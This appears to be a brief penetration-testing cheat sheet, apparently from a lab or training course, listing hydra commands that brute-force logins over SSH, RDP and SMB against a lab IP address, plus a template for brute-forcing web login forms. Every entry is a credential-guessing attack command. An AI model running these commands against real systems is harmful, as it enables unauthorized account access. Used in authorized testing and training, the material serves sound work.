 SSH
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

RDP
```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```
SMB
```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

web login bruteforce
```shell-session
hydra [options] target http-post-form "path:params:condition_string"
```
